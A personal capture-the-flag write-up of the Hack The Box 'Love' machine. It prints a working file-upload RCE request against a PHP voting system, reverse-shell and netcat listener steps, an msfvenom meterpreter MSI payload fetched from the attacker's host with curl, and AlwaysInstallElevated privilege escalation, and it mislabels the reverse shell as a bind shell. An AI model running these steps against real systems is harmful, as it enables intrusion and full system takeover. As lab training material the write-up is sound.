 ```yaml
---
title: Hack The Box&#58; Love
permalink: /HTB/Love
layout: default
---
```

<img src="https://github.com/susMdT/Nigerald/blob/master/assets/images/Love_Big.png?raw=true" unselectable="on" class="Box_Logo" />

Love is an easy level box on HackTheBox and took quite some time for me to solve as it was the second box that I have tried to solve. It was pretty interesting to solve and I learned some new exploit methods that I could try to use later.

# Walkthrough
First I performed an nmap scan using `nmap -p- <box ip>`. This first identifies the ports in use. You can follow this up with `nmap -sV -sC -A --script=vuln <box ip> -p x,y,z > file.txt` to get a more indepth scan of those running ports and the system itself, but I was too lazy to do that. This second command will also write the results of the scan to a `file.txt` in your current directory so you could reference the scan again later, if necessary. The result of my initial nmap scan showed me that http was running:
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(1).png?raw=true)  
<br />
<br />
Accessing the website I notice that it's titled "Voting System using PHP", so I try to find out if theres an existing exploit for it.
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(2).png?raw=true) 
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(3).png?raw=true) 
<br />
<br />
Accessing the exploit-db link shows an exploit that I can use. Based on the title, it's an exploit for unauthenticated remote code execution, meaning that if it works, I can execute code on the web server without needed any sort of credentials. Further explanation on the vulnerability can be found at:  https://www.cybersecurity-help.cz/vdb/SB2021050511. According to this resource, Unauthenticated RCE is achieved through uploading php files that will be run by the server and stored at the `/images/`directory. The exploit is a in the form of a HTTP POST request
```markdown
POST /admin/candidates_add.php HTTP/1.1
Host: 192.168.1.1
Content-Length: 275
Cache-Control: max-age=0
Origin: http://192.168.1.1
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrmynB2CmGO6vwFpO
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.1/admin/candidates.php
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

------WebKitFormBoundaryrmynB2CmGO6vwFpO
Content-Disposition: form-data; name="photo"; filename="shell.php"
Content-Type: application/octet-stream

<?php echo exec("whoami"); ?>

------WebKitFormBoundaryrmynB2CmGO6vwFpO
Content-Disposition: form-data; name="add"
```

Reading this post request, if I change the php code being used as the payload (near the bottom, between the angle brackets), I could potentially send a php code for a reverse shell. I decided to use  https://www.revshells.com to generate a PHP Ivan Sincek reverse shell under the IP of my machine and port 4444 (personal preference). I copy and pasted the shell generated from the site and replaced the payload. After sending the post request in Burp, I checked to see it worked.
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(5).png?raw=true) 
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(7).png?raw=true) 
<br />
<br />
Note that I replaced the red `//` in the burp picture with the Ivan Sincek php code. And we can see that it worked. All we have to do now is set up a listener on port 4444 and click the the link to our php code in the `/images/` directory. I set up a listener by running `nc -nvlp 4444` and then clicking `a.php` gives me:
<br />
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(8).png?raw=true) 
<br />
<br />
Sweet, and we're in a Windows machine. Let's check something simple; is AlwaysInstallElevated on? What this policy does is that, if it's on (we can check the registry), it will install any `.msi` files with SYSTEM level privileges. Running the `REG QUERY HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` will tell us if its enabled.
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(9).png?raw=true) 
<br />
<br />
The 0x1 means that the policy is turned on. It's too lit. To abuse this, we can create a malicious msi file that will give us a bind shell, granting us remote access of the machine. Whereas in a remote shell we open a port on our attacking machine and the victim connects to us, a bind shell will have a port open up on the victim while we connect to it. This sounds complicated, but we can use msfvenom to generate it very easily. Running the command `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your ip> LPORT=<port>-f msi > robux.msi` will create the payload. 
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(11).png?raw=true) 
<br />
<br />
We can then set up a http server on our machine that our victim will access to download the file using curl. Run `python3 -m http.server` and `curl <my machine ip>:<port number><path to payload> --output <filename>` on the respective machines. I ran `curl`  in the `\images` so I could just refresh the webpage to see if my payload was uploaded (however you could just use `dir` to check on the reverse shell)
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(12).png?raw=true) 
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(14).png?raw=true) 
<br />
<br />
Now lets check if our payload is there.
<br />
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(15).png?raw=true) 
<br />
<br />
Robux op. Before we run this, we have to remember that we're using a bind shell so we have to connect to the listener that will be active once we run our payload. This can be done through metasploit and running the exploit `multi/handler` and setting our respective `LHOST` and `LPORT`.
<br />
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(17).png?raw=true) 
<br />
<br />
Now lets run the msi file on the compromised host (we can just type out the filename and extension if its in our directory, or write the full path). 
![Image](https://github.com/susMdT/Nigerald/blob/master/assets/images/love%20(16).png?raw=true) 
<br />
<br />
ggez
-Dylan Tran 9/3/2021
